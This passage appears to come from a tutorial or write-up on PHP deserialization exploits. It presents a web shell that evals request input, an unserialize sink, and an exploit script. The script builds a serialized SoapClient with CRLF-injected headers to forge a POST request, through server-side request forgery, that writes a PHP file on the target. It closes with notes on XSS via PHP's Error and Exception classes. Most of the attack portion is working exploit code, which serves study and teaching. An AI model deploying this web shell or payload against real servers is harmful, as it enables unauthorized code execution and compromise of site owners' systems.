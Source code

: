 > Test code:
```php
[+] shell.php
<?php
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
        @eval($_REQUEST['cmd']);
    }
?>

[+] index.php
<?php
    $demo = unserialize($_GET['h3rmesk1t']);
    $demo->d1no();
?>

[+] exp.php
<?php
    $target = 'http://127.0.0.1/Demo/shell.php';
    $post_string = 'cmd=file_put_contents("C:/Tools/phpstudy_pro/WWW/Demo/info.php", "<?php phpinfo();?>");';
    $headers = array(
        'X-Forwarded-For: 127.0.0.1',
        'Cookie: aaaa=ssss'
    );
    $user_agent = 'aaa^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^^'.$post_string;
    $options = array(
        'location' => $target,
        'user_agent'=> $user_agent,
        'uri'=> "aaab"
    );

    $b = new SoapClient(null, $options);

    $aaa = serialize($b);
    $aaa = str_replace('^^', '%0d%0a', $aaa);
    $aaa = str_replace('&', '%26', $aaa);
    echo $aaa;
?>
```

## Error/Exception Built-in class
###XSS using the Error/Exception built-in class
> The Error class is a built-in class of `PHP`, which is used to automatically customize an Error. In the `php7` environment, it may cause an `xss` vulnerability because it has a built-in `__toString()` method, which is often used in PHP deserialization.
> The `Exception` class is similar to the `Error` class

> Usage situation

```php
Error Built-in class:
    Applicable to php7 version
    When an error is turned on

Exception Built-in class:
    Suitable for php5 and 7 versions
    When an error is turned on
```
